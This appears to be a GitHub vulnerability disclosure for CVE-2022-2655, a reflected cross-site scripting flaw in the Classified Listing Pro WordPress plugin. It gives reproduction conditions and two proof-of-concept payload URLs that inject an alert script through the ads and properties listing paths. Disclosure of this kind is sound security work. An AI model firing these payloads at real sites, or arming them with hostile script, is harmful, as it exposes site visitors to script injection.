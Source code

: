 ## 😼 CVE-2022-2655

Classified Listing Pro < 2.0.20 - Reflected Cross-Site Scripting

## Description
After creating an ad using the Classified Listing Pro plugin, the ads menu, categories and subcategories become vulnerable to Reflected Cross Site Scripting (XSS)

<b>To reproduce the failure, it is necessary to create at least one category and one ad</b>

## Proof of Concept:

  <img src="https://raw.githubusercontent.com/geozin/CVEs/main/CVE-2022-2655/POC%202-aLT.gif"/>
  
<b>Payloads</b>
```
https://<TARGET>/all-ads/?"><script>alert("Hacking Force")</script>
https://<TARGET>/all-properties/?"><script>alert("Hacking Force")</script> 
```

## References
[Hacking Force](https://blog.hackingforce.com.br/pt/cve-2022-2655/)<br>
[WPScan](https://wpscan.com/vulnerability/acc9675a-56f6-411a-9594-07144c2aad1b)<br>
[CVE MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-2655)<br>
[Ithemes Wordpress Vulnerability Report](https://ithemes.com/blog/wordpress-vulnerability-report-august-24-2022/)<br>


